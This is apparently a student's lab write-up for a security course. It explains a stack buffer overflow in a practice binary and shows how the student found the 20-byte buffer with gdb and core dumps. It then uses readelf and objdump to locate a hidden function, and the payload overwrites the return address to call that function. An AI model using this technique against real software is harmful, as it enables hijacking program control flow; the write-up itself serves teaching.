 ## Assignment 3

### Part 1

1. Report what the program actually does:
    
    * The program takes in an input string and toggle case of each character randomly, sometime append random characters to it

2. Report what is the buffer size used by the program and how you were able to find it:

    * The buffer size is 20. 
    * To find the buffer size, run the following commands:
    
            ulimit -c unlimited
            perl -e 'print pack("C*", 0x20..0xFF)' | ./weak
            gdb ./weak core    
    
    * gdb shows return address 0x37363534 suggest 0x34 - 0x20 = 20 characters buffer
    
3. Report how you determined how to call the function that produced the desirable output:
    
    * To find rodata address:
        
            readelf -S ./weak | grep "rodata"
       This return 0x0809f8a0 as rodata address
              
    * To find desired string:
            
            readelf -p 5 ./weak | grep "Owned by group 12"
        This return offset from rodata is 0xd9, which mean actual address is 0x0809f8a0 + 0xd9 = 0x0809f979 
    
    * To dump .text portion of binary file:
            
            objdump -d weak > weak.dsl
    
    * To find reference to desired string:
            
            cat weak.dsl | grep "809f979"
        This show the string was referenced at 0x8048335
        
    * To find function address that referenced the string:
            
            cat weak.dsl | grep "80483[234]"
        This show the function start at 0x804832c (push %ebp). Also found reference to print function (0x8049540, called after string was loaded).
        
    * To find return address of original function:
            
            gdb ./weak
            break * 0x8049540           # Break before print function
            run
            123                         # Any input that fits inside buffer
            info frame                  # Saved eip is expected return address (0x80485f2)
       
4. Provide the source code for your exploit
    * To run exploit.py
    
            python exploit.py 12 | ./weak
            
5. Report how your exploit works and why it is structured the way it is:
     
     There are 3 parts to the exploit:
    * `"\00" * 20` is to fill the buffer. Any input after this will override the return address.
    * `"\x2c\x83\x04\x08"` is the hidden function address. This will override the return address, so when the original function finish, it will return to this address, meaning calling the hidden function.
    * `"\xf2\x85\x04\x08"` is the original return address, that is the return address without any buffer overflow. This will ensure the program exit normally. This address is added after the hidden function address because the function does not take in any arguments, therefore empty buffer. 